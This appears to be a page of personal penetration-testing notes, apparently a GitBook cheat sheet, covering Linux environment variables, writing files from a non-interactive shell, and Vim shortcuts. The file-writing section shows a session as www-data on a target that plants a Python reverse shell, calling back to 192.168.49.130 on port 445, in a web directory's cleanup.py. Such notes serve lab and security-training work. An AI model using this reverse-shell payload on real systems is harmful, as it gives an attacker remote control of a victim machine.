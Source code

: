 ```bash
ECHO $path
# They are stored in /etc/environment
printenv
env

/home/.profile # --> where personal $PATH are stored
```

## Create a file (non-interactive shell)

{% code overflow="wrap" %}
```bash
www-data@target:/$ echo "" > /var/www/html/booked/cleanup.py
echo """" > /var/www/html/booked/cleanup.py
www-data@target:/$  cat <<EOT>> /var/www/html/booked/cleanup.py
 cat <<EOT>> /var/www/html/booked/cleanup.py
> import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.130",445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
<s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
> EOT
EOT
www-data@target:/$

cat <<EOL > file.txt
...
...
content
...
EOL
```
{% endcode %}

## Vim

<pre class="language-bash"><code class="lang-bash"><strong># GET RID OF LINES WITH A SPECIFIC STRING LIKE "nologin" 
</strong>:g/nologin/d
<strong>
</strong><strong>dd # delete a line
</strong>u  # undo
r  # redo
Shift+d # delete from cursor until the end of the line
d0 # delete from cursor until the beginning of the line
i  # insert mod
Esc(key) # exit insert mod

# Find each ocurrence of 'foo' (in all lines) and replace it with 'bar' 
:%s/foo/bar/g    
